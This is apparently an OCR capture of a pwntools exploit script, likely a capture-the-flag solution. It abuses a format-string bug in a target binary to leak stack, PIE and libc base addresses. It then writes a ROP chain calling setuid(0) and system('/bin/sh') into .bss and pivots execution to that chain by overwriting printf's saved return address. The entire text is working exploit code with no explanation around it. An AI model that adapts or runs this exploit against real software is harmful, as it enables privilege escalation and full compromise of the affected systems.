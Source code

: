 ```python
io = start()


###################################
######## Leak Part ################
###################################

payload = flat('%184$p|%185$p|%195$p')
io.sendafter(b'your input again.\n', payload)

io.recvuntil(b'input is:')
io.recvline()

leaked = io.recvline().strip().split(b'|')

rbp_leak    = int(leaked[0], 16) - 0x50 ## 0x50 bytes before leaked address
exe.address = int(leaked[1], 16) - 0x184b
libc.address= int(leaked[2], 16) - 0x24083

success(f'RBP Addr      : {rbp_leak:#x}')
success(f'PIE Base Addr : {exe.address:#x}')
success(f'LIBC Base Addr: {libc.address:#x}')
success(f'BSS Address   : {exe.bss():#x}')

target_addr = exe.bss()+0xde0
success(f'Target Address: {target_addr:#x}')
#==========================================#
#========= FmtStr Object ==================#
#==========================================#
offset = 58
padlen = 3

f = FmtStr(send_fmt, offset=58, padlen=3, numbwritten=0x2d)


###################################
######## rop chain write ##########
###################################
rop = ROP([exe, libc])

binsh   = next(libc.search(b'/bin/sh\0'))
ret     = rop.find_gadget(['ret'])[0]

rop.call('setuid', [0])
rop.raw(ret)
rop.call(libc.sym.system, [binsh])

for idx, c in enumerate(rop.build()):
    f.write(target_addr+(8*idx), c)

###################################
######## redirect code exec #######
###################################
pop_rsp = rop.find_gadget(['pop rsp', 'ret'])[0]

printf_saved_ret  = rbp_leak - 0x598
printf_saved_ret8 = rbp_leak - 0x590

f.write(printf_saved_ret, pop_rsp)
f.write(printf_saved_ret8, target_addr)

f.execute_writes()

```